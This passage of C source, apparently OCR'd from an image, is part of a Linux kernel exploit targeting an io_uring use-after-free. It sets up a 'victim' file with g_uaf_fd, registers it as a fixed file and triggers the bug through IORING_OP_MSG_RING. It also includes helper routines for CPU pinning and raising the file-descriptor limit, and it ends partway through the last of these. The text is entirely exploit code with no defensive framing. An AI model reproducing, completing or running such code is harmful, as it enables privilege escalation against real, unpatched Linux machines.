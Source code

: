```c
    return fd;
}

// Set-up the file that we're going to use as our victim object
void alloc_victim_filp(void)
{
    // Open file to register
    g_uaf_fd = get_test_fd(1);
    info("Victim fd: %d", g_uaf_fd);

    // Register the file
    int ret = io_uring_register_files(&g_ring, &g_uaf_fd, 1);
    if (ret)
    {
        err("`io_uring_register_files()` failed");
    }

    // Get hold of the sqe
    struct io_uring_sqe *sqe = NULL;
    sqe = io_uring_get_sqe(&g_ring);
    if (!sqe)
    {
        err("`io_uring_get_sqe()` failed");
    }

    // Init sqe vals
    sqe->opcode = IORING_OP_MSG_RING;
    sqe->fd = 0;
    sqe->flags |= IOSQE_FIXED_FILE;

    ret = io_uring_submit(&g_ring);
    if (ret < 0)
    {
        err("`io_uring_submit()` failed");
    }

    struct io_uring_cqe *cqe;
    ret = io_uring_wait_cqe(&g_ring, &cqe);
}

// Set CPU affinity for calling process/thread
void pin_cpu(long cpu_id)
{
    cpu_set_t mask;
    CPU_ZERO(&mask);
    CPU_SET(cpu_id, &mask);
    if (sched_setaffinity(0, sizeof(mask), &mask) == -1)
    {
        err("`sched_setaffinity()` failed: %s", strerror(errno));
    }

    return;
}

// Increase the number of FDs we can have open
void increase_fds(void)
{
    struct rlimit old_lim, lim;
	
	if (getrlimit(RLIMIT_NOFILE, &old_lim) != 0)
    {
        err("`getrlimit()` failed: %s", strerror(errno));
    }
```